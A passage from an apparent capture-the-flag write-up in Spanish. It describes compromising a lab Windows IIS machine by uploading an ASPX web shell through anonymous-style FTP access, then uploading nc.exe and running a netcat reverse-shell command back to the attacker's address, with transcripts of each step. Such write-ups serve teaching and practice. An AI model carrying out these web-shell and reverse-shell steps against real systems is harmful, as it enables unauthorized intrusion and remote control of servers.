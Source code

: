 Posteriormente, accedemos a él a través del navegador web.

![test](test.png)

Dado que tenemos la capacidad de cargar archivos en el servidor FTP, podemos subir una web shell `.aspx` que nos permita ejecución remota de comandos para luego generar una reverse shell.

En este caso, utilizamos la web shell ubicada en la ruta de Kali: `/usr/share/davtest/backdoors/aspx_cmd.aspx`, y lo cargamos en el servidor FTP.

```bash
ftp> put aspx_cmd.aspx 
local: aspx_cmd.aspx remote: aspx_cmd.aspx
229 Entering Extended Passive Mode (|||49168|)
125 Data connection already open; Transfer starting.
100% |*****************************************************************************************************************************************|  1438       16.32 MiB/s    --:-- ETA
226 Transfer complete.
1438 bytes sent in 00:00 (13.12 KiB/s)
```

Después, accedemos a `http://10.10.10.5/aspx_cmd.aspx` y entramos a la web shell. Ejecutamos el comando `whoami` para verificar el usuario actual.

![web_shell](web_shell.png)

El siguiente paso es cargar el ejecutable `nc.exe` en el servidor FTP y utilizarlo para establecer la reverse shell.

Para ello, utilizamos el archivo `nc.exe` ubicado en la ruta de Kali: `/usr/share/windows-resources/binaries/nc.exe` y lo subimos al servidor FTP.

```bash
ftp> binary
200 Type set to I.
ftp> put nc.exe 
local: nc.exe remote: nc.exe
229 Entering Extended Passive Mode (|||49206|)
150 Opening BINARY mode data connection.
100% |*****************************************************************************************************************************************| 59392       82.52 KiB/s    00:00 ETA
226 Transfer complete.
59392 bytes sent in 00:00 (71.55 KiB/s)
```

En este caso, los archivos cargados al servidor FTP se almacenan en la ruta por defecto del IIS: `c:\inetpub\wwwroot`. Para verificarlos, usamos el comando `dir c:\inetpub\wwwroot` y así observamos todos los archivos cargados.

![web_shell2](web_shell2.png)

Iniciamos la escucha en nuestra máquina atacante y ejecutamos `nc.exe` para generar una reverse shell con el siguiente comando: `c:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.108 443`. Si todo va bien, obtendremos una shell con el usuario `iis apppool\web`.

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.108] from (UNKNOWN) [10.10.10.5] 49207
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```
